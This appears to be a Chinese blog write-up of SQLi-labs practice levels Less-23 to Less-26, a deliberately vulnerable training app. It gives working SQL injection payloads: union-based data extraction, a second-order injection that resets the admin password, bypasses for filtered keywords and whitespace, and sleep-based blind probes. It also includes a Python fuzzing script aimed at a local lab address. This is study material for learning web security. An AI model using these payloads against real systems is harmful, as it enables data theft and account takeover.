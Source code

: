 ```yaml
---
layout: post
title: "「SQL注入入门篇」SQL注入（十二）"
subtitle:   "为什么我是web安全菜鸡啊！！！"
date: 2016-11-16 12:00:00
author:     "许大仙"
tags:
    - web安全
---
```


<h2>Less-23</h2>
<h3>Fuzz</h3>
?id=1'#+ 不起作用

?id=1' 报错

怀疑可能过滤掉了注释符号，考虑用构造原本语句的方法绕过。

找到一个简单的判断方法，在加单引号以后加上%23和%24进行对比，发现%23这一URL编码没有出现#，说明被过滤了

<img src="http://oc42vgpoj.bkt.clouddn.com/Less23_fuzz1.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/Less23_fuzz2.png" />

<h3>Payload</h3>
<pre class="lang:default decode:true">?id=-1' union select 1,database(),user() or '1'='1</pre>
发现注释符号应该与后面被注释的内容隔开至少一个空格，否则注释不起作用。比如可以用+--+

<img src="http://oc42vgpoj.bkt.clouddn.com/Less23_limit.png" />

突然发现很奇怪，因为有一列总是显示不出来，后来想到是语句里面的 limit 0,1 没有办法被注释掉

这题还有其他解法吗？求教各位（group_concat???）

<h2>Less-24</h2>
简直有毒==

<h3>概述</h3>
是一个比较完整的登录界面，有用户注册、用户登录的功能，登陆后可以修改密码。

审计一下源码，发现对在注册页面对注册用户名、原密码、新密码、确认密码都有过滤，更改密码页面对原密码、新密码有过滤，于是只剩下用户名可以用。

<img src="http://oc42vgpoj.bkt.clouddn.com/Less24_php.png" />

注意这里的过滤并非上一题的替代，只是转义而已。于是数据将会被以原来的形式保存进数据库，不会有删改，只是转义后在调用的时候不会有原来的效果。

<h3>Payload</h3>
<ol>
<li>注册名为<code>admin' --</code>的用户（注意在两个短线后面有一个<strong>空格</strong>）</li>
<li>登录，更改密码</li>
</ol>

<img src="http://oc42vgpoj.bkt.clouddn.com/Less24_change.png" />

这里要复习一下之前讲过的更新数据的语句，语句是

<pre class="lang:default decode:true">UPDATE users SET PASSWORD='abc' where username='admin' and password='admin' ;</pre>
由于我们的用户名带有注释符号，于是就在更改时变成了

<pre class="lang:default decode:true">UPDATE users SET PASSWORD='abc' where username='admin' -- ' and password='admin' ;</pre>
成功改掉admin的密码

<img src="http://oc42vgpoj.bkt.clouddn.com/Less24_payload.png" />

<h2>Less-25 &amp; Less-25a</h2>
<h3>Fuzz</h3>
通过?id=1' or1的方法对比Less1和Less25发现他们的区别，过滤掉了or和and

<img src="http://oc42vgpoj.bkt.clouddn.com/Less25_fuzz1.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/Less25_fuzz2.png" />

如果大小写敏感的话可以通过大小写绕过，然鹅这里不敏感，所以可以用数学符号绕过，或者双写（这个给满分）

<h3>Payload</h3>
<ul>
<li>or:</li>
<li>||</li>
<li>oorr</li>
<li>and:</li>
<li>&amp;&amp; （URL编码为%26%26）</li>
<li>anandd</li>
</ul>

简直精彩

Less-25a只是换成了盲注，可以用以下方法判断

?id=1 %26%26 sleep(10)
?id=-1 || sleep(10)

挂起则说明这样能够起作用

##Less-26

又开始玩花了，这次过滤的更全了

<h3>Fuzz</h3>
?id=%231 // 判断过滤了注释
?id=%or1 // 判断过滤了or
?id=%and // 判断过滤了and
?id=/&#42;1 // 过滤了斜杠和反斜杠
?id=1' ' ' // 过滤了空格

<h3>Payload</h3>
搞一个脚本来判断哪些可能可以用

<pre class="lang:python decode:true"># -*- coding: utf-8 -*-
import requests

def changeToHex(num):
tmp = hex(num).replace("0x",'')
if len(tmp)&lt;2:
tmp = '0' + tmp
return "%"+tmp


for i in range(256):
i = changeToHex(i)
url = "http://192.168.137.129/sqli/Less-26/?id=1'" + i +"%26%26" + i + "'1'='1"
responce = requests.get(url)
if('Dumb') in responce.content:
print "%s works!" %i</pre>

结果

<pre class="lang:default decode:true">%09 works! // tab
%0a works! // linefeed
%0b works! // 不明（空格）
%0c works! // 不明（空格）
%0d works! // c return
%20 works! // space
%22 works! // 双引号
%23 works! //#
%27 works! //单引号
%2a works! //星号
%2d works! //减号
%2f works! //斜线
%5c works! //反斜线
%a0 works! //不明（空格）</pre>

<pre class="lang:tsql decode:true ">?id=0%27union%a0select%a01,group_concat(table_name),3%a0from%a0infoorrmation_schema.tables
%a0where%a0table_schema='security'%26%26%a0%271%27=%271

?id=0%27%a0union%a0select%a01,group_concat(email_id),3%a0from%a0emails%a0union
%a0select(1),2,'3

（留坑待填）

?id=0' union select 1,email_id,3 from emails where 1 &amp;&amp; '1'='1 
?id=0' union select 1,username,3 from security.users where 1 &amp;&amp; '1</pre>

&nbsp;